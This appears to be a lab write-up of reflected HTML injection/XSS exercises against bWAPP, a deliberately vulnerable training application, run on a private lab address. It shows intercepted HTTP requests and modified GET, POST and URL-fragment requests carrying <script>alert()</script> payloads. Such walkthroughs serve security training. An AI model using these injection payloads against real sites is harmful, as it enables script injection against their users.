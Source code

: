 ```yaml
---
layout: post
title:  "BWA - HTML Inject (XSS)"
postid: writeup
categories:
---
```

# HTML Injection - Reflected (GET) #
## Ask ##
First and Last Name

## Action ##
**Burp intercept and add below to inject**
```
<script>alert('Hello,world!');</script>
```

## RAW ##

```
GET /bWAPP/htmli_get.php?firstname=test&lastname=test&form=submit HTTP/1.1

Host: 172.16.57.129
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0)
 Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.57.129/bWAPP/htmli_get.php
DNT: 1
Connection: close
Cookie: PHPSESSID=u0dk36qhoj0ngbimoe9mdoov30; security_level=0
Upgrade-Insecure-Requests: 1
```

## MODIFY ##

```
GET /bWAPP/htmli_get.php?firstname=test&lastname=<script>alert("Hello%20world!")</script>&form=submit HTTP/1.1
```

**Need to use `%20`, it does not take spaces**

<br />

# HTML Injection - Reflected (POST) #
## Ask ##
First and Last Name

## Action ##
**Burp intercept and add below to inject**
```
<script>alert('Hello,world!');</script>
```

## RAW ##
```
POST /bWAPP/htmli_post.php HTTP/1.1
Host: 172.16.57.129
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0)
 Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.57.129/bWAPP/htmli_post.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
DNT: 1
Connection: close
Cookie: PHPSESSID=u0dk36qhoj0ngbimoe9mdoov30; security_level=0
Upgrade-Insecure-Requests: 1

firstname=test1&lastname=test2&form=submit
```

## MODIFY ##
```
firstname=test1&lastname=<script>alert('Hello,World!');</script>&form=submit
```

**Need to use `%20`, it does not take spaces**

<br />

# HTML Injection - Reflected (URL) #
## Ask ##
Your current URL: http://172.16.57.129/bWAPP/htmli_current_url.php

## Action ##
Change the URL

## RAW ##
```
GET /bWAPP/htmli_current_url.php HTTP/1.1
Host: 172.16.57.129
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=u0dk36qhoj0ngbimoe9mdoov30; security_level=0
Upgrade-Insecure-Requests: 
```

## MODIFY ##
```
/bWAPP/htmli_current_url.php#<h1>DefenderGB</h1><h2>Strikes_Again</h2><script>alert('Hello,World!');</script>
```

**You can't use `%20`, it will pass as %20.**